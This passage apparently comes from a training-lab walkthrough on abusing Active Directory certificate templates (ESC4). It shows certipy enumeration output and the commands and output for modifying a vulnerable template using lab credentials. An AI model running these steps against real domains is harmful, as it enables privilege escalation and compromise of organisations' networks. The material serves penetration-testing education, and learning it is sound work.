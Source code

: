 ```shell-session
        Enrollment Rights               : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Domain Users
                                          LAB.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : LAB.LOCAL\Administrator
        Full Control Principals         : LAB.LOCAL\Black Wasp
        Write Owner Principals          : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
                                          LAB.LOCAL\Black Wasp
        Write Dacl Principals           : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
                                          LAB.LOCAL\Black Wasp
        Write Property Principals       : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
                                          LAB.LOCAL\Black Wasp
    [!] Vulnerabilities
      ESC4                              : 'LAB.LOCAL\\Black Wasp' has dangerous permissions
```

Before abusing `ESC4` and using the `Shadow Credentials` technique, students need to add vHost entries for the domain name `lab.local`, the CA's name `lab-LAB-DC-CA`, and its machine's DNS name `LAB-DC.lab.local` (which is also the DC's DNS name):

Code: shell

```shell
sudo sh -c 'echo "STMIP lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Subsequently, to abuse `ESC4`, students need to use the `template` command of `certipy`, specifying the template `ESC4` for the `-template` option:

Code: shell

```shell
certipy template -u blwasp@lab.local -p Password123! -template ESC4
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy template -u blwasp@lab.local -p Password123! -template ESC4

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```
